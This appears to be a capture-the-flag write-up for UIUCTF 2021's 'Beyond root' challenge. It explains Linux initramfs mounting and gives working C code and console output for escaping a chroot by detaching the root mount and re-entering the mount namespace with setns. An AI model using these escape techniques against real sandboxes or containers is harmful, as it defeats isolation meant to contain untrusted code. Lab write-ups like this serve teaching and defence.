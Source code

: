 ```yaml
---
layout: post
title:  "Beyond root (UIUCTF 2021)"
date:   2021-08-09
categories: writeups
author: Joey Geralnik
tags: linux, kernel, namespace, sandbox
---
```

In this challenge we are given shell access to a system and need to access the flag which is in initrd. There are lots of moving components so making sense of what exactly is happening takes some time.

We start with a Dockerfile where the kernel was compiled:

```docker
RUN mkdir /initrd
RUN mkdir /initrd/dev /initrd/root /initrd/bin

COPY --from=busybox-grab /bin/busybox /initrd/bin/

COPY src/flag /initrd/
```

Inside of kernel/kconfig we find

```make
CONFIG_INITRAMFS_SOURCE="/initrd"
```

So the /initrd folder is copied into the kernel image and mounted when the kernel boots.

Our docker then calls `socat TCP-LISTEN:1337,reuseaddr,fork EXEC:'kctf_pow nsjail --config /home/user/nsjail.cfg -- /home/user/qemud /home/user/bzImage'`
This is more noise than important information, but confused me for a while during the challenge because we are running qemu via nsjail inside of a docker. We can ignore all of the extra layers and just focus on the image running inside of qemu.


## Why no panic?
Note that there is no `init` binary inside of the initramfs. Why doesn't this panic?

If we look at the [kernel_init](https://elixir.bootlin.com/linux/v5.12.14/source/init/main.c#L1424) function in the kernel we can see that it first calls `kernel_init_freeable()`. This [checks](https://elixir.bootlin.com/linux/v5.12.14/source/init/main.c#L1547) if we have a `/init` binary, and if not calls `prepare_namespace()`.

`prepare_namespace` mounts the root filesystem with [do_mount_root](https://elixir.bootlin.com/linux/v5.12.14/source/init/do_mounts.c#L374) which does

```c
ret = init_mount(name, "/root", fs, flags, data_page);
if (ret)
    goto out;

init_chdir("/root");
```

and then [calls](https://elixir.bootlin.com/linux/v5.12.14/source/init/do_mounts.c#L616):

```c
init_mount(".", "/", NULL, MS_MOVE, NULL);
init_chroot(".");
```

So, to summarize the flow - if there is no /init binary, we mount the root filesystem to /root, chdir to /root, mount --move . /, and chroot .

## Escaping chroot
If not for the mount --move we would just have to escape a chroot. Escaping chroot is usually pretty easy.

Let's say we have a folder /root that we chroot into. We can create a new chroot while keeping a reference to our root directory, and then go back up a level:

```console
/ # mkdir /root
/ # cp -r /bin/ /usr /root
/ # chroot /root/
/ # ls
bin  usr

/ # mkdir /inner
/ # cp -r bin usr inner
/ # mychroot /inner/
sh: getcwd: No such file or directory
(unknown) # ls -l /
total 8
drwxr-xr-x    2 0        0             4096 Aug  9 12:37 bin
drwxr-xr-x    5 0        0             4096 Aug  9 12:37 usr
sh: getcwd: No such file or directory
(unknown) # cd ..
sh: getcwd: No such file or directory
(unknown) # ls
bin         etc         lost+found  root        sys         usr
dev         linuxrc     proc        sbin        tmp
```

Here mychroot is just a small binary I compiled since busybox's chroot always cd's into the chroot directory first:

```c
int main(int argc, char* argv[]) {
    chroot(argv[1]);
    execl("/bin/sh", "/bin/sh", NULL);
}
```

Unfortunately, there is no way to access the original initrd filesystem because even outside of the chroot the rootfs is still mounted on /

## Umount root
We can also try to umount / with `umount -l /`. 
This works, but the system ends up in a weird state where / is still the root filesystem, all other mounts are umounted (/proc, /dev), and we can no longer mount new filesystems (such as remounting /proc). We still don't have access to the underneath filesystem because we are still inside the chroot.

Even combining this with the previous trick doesn't work because going up a directory will never get us to the initramfs.

## Solution
I was stuck here for a while until I came upon a [stack overflow post](https://unix.stackexchange.com/questions/583138/why-does-initramfs-need-to-overmount-rootfs-with-the-new-root) with the solution.

After umounting / the root inside of our namespace (outside of the chroot) is the initrd. If we open a handle to /proc/self/ns/mnt (before we screw up the /proc mount) then we can use setns to reenter our namespace and access the root file system (effectively escaping the chroot).

Here's the code:

```c
#define _GNU_SOURCE

#include <sys/types.h>
#include <sys/stat.h>
#include <sys/mount.h>
#include <unistd.h>
#include <fcntl.h>
#include <sched.h>
#include <stdio.h>

int main() {
    int ns = open("/proc/self/ns/mnt", O_RDONLY);
    if (ns == -1) {
        perror("open");
        goto out;
    }

    if (umount2("/", MNT_DETACH)) {
        perror("umount2");
        goto out;
    }

    if (setns(ns, CLONE_NEWNS)) {
        perror("setns");
        goto out;
    }

    char *a[] = { "/bin/busybox", "sh", NULL };
    char *e[] = { NULL };
    execve(a[0], a, e);

    perror("execve");

out:
    return 1;
}
```

We upload it to the server and give it a go:

```console
/ # chmod +x win
/ # ./win
/ # ./bin/busybox ls
bin   dev   flag  root
/ # ./bin/busybox cat flag
uiuctf{oh_I_have_root_oh_wait_its_outside_root_6da726b5}
```
